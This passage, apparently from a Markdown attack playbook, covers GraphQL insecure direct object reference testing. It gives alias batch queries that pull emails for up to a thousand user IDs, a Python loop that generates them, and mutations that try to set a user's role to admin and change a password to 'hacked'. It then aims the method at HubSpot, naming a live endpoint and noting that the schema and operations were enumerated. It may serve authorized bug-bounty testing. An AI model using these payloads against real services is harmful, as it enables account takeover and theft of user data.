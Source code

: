 ### Step 5: IDOR via Batch/Alias Queries

**If you can inject batch queries**:

```graphql
query {
  user1: user(id: 1) { id email }
  user2: user(id: 2) { id email }
  user3: user(id: 3) { id email }
  # ... up to user1000
}
```

**Automate**:
```python
query = "query {\n"
for i in range(1, 1000):
    query += f"  user{i}: user(id: {i}) {{ id email }}\n"
query += "}"
```

### Step 6: Test Mutations

**If mutations are accessible**:

```graphql
# Test if you can update other users
mutation {
  updateUser(id: 1, role: "admin") {
    success
  }
}

# Test password reset
mutation {
  updatePassword(id: 1, newPassword: "hacked") {
    success
  }
}
```

---

## HubSpot-Specific Application

### What We Know About HubSpot GraphQL

From previous research:
- ✅ **Endpoint**: `https://app-na2.hubspot.com/api/graphql/crm`
- ✅ **Introspection Enabled**: 777 types discovered
- ✅ **50 Query Operations**: All enumerated
- ✅ **52 Mutation Operations**: All enumerated
- ✅ **Schema**: Complete schema extracted
- ⚠️ **Authorization**: Already found issues with low-priv executing high-priv queries (false positive, but pattern exists)
